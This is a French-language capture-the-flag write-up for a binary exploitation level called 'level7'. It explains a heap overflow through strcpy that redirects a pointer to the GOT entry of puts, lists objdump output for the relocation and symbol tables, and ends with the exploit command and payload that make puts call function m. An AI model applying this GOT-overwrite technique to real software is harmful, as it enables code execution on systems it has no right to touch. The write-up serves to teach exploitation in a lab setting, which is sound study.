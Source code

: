 Cette exécutable est composé d'une fonction main qui va allouer de 8 octets pour pouvoir stocker dans les 4 premiers octets un chiffre et dans les 4 octets restant un pointeur pointant à un autre malloc de taille 8 octets.

Avec le premier strcpy on va pouvoir overflow et modifier la valeur stockée par `ptr_to_buffer2`, pour qu'elle pointe autre chose que `buffer2` mais par exemple l'adresse de puts pour la remplacer via le deuxième strcpy par l'adresse de `m`. Et lorsque puts sera appele à la fin du main. Il n'appellera pas puts de la libc mais la fonction `m`.

![Ghidra Level 7, fonction main et m](./ghidra_level7.png)
Donc en premier lieu, on recupère l'adresse de puts (0x08049928)
```
$ objdump -R ./level7
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
Puis l'adresse de `m` (0x080484f4)
```
$ objdump -t ./level7
SYMBOL TABLE:
08048440 g     F .text	00000000              _start
080486d8 g     O .rodata	00000004              _fp_hw
08049960 g     O .bss	00000050              c
080484f4 g     F .text	0000002d              m
08049940 g       *ABS*	00000000              __bss_start
```
On va construire nos arguments:
 - Le premier qui va overflow et pointer vers l'adresse de puts.
 - Et le deuxième qui va modifier la valeur dans puts pour remplacer par `m`

```
$ ./level7 `python -c 'print "a"*20+"\x28\x99\x04\x08"'`  `python -c 'print "\xf4\x84\x04\x08"'`
```

